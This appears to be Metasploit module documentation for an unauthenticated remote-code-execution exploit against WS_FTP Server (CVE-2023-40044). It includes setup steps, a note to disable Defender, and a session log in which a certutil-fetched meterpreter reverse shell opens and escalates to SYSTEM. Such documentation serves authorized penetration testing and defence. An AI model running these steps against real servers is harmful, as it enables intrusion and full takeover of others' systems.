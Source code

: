 ## Vulnerable Application
This module exploits an unsafe .NET deserialization vulnerability to achieve unauthenticated remote code
execution against a vulnerable WS_FTP server running the Ad Hoc Transfer module. All versions of WS_FTP Server
prior to 2020.0.4 (version 8.7.4) and 2022.0.2 (version 8.8.2) are vulnerable to this issue. The vulnerability was
originally discovered by AssetNote.

For a full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/bn32f9sNax/cve-2023-40044/rapid7-analysis).

## Testing
Download and install a vulnerable version of WS_FTP server. By default the server will listen for HTTPS connections
on port 443. The vulnerability is in the Ad Hoc Transfer module which is installed by default. This exploit
module was tested against WS_FTP Server 2020.0.1 (version 8.7.1) and WS_FTP Server 2022.0.1 (version 8.8.1).

## Verification Steps
Note: Disable Defender if you are using the default payloads.

Steps:
1. Start msfconsole
2. `use exploit/windows/http/ws_ftp_rce_cve_2023_40044`
3. `set LHOST eth0`
4. `set RHOST <TARGET_IP>`
5. `check`
6. `exploit`

## Scenarios

### Windows
```
msf exploit(windows/http/ws_ftp_rce_cve_2023_40044) > set LHOST eth0
LHOST => eth0
msf exploit(windows/http/ws_ftp_rce_cve_2023_40044) > set RHOST 192.168.86.47
RHOST => 192.168.86.47
msf exploit(windows/http/ws_ftp_rce_cve_2023_40044) > show options

Module options (exploit/windows/http/ws_ftp_rce_cve_2023_40044):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.86.47    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basi
                                          cs/using-metasploit.html
   RPORT       443              yes       The target port (TCP)
   SSL         true             no        Negotiate SSL/TLS for outgoing connections
   TARGET_URI  /AHT/            no        Target URI used to exploit the deserialization vulnerability. Must begin with
                                          /AHT/
   VHOST                        no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      BkxJVzFxHwL      no        Name to use on remote system when storing payload; cannot contain spac
                                                  es.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows



View the full module info with the info, or info -d command.

msf exploit(windows/http/ws_ftp_rce_cve_2023_40044) > check
[*] 192.168.86.47:443 - The target appears to be vulnerable. Detected a build date of 27-8-2021
msf exploit(windows/http/ws_ftp_rce_cve_2023_40044) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected a build date of 27-8-2021
[*] Sending stage (200774 bytes) to 192.168.86.47
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.47:61513) at 2023-10-04 17:00:10 +0100

meterpreter > sysinfo
Computer        : WIN-9SIICLTVVC7
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x64/windows
meterpreter > pwd
C:\Windows\SysWOW64\inetsrv
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > getsystem
...got system via technique 4 (Named Pipe Impersonation (RPCSS variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```
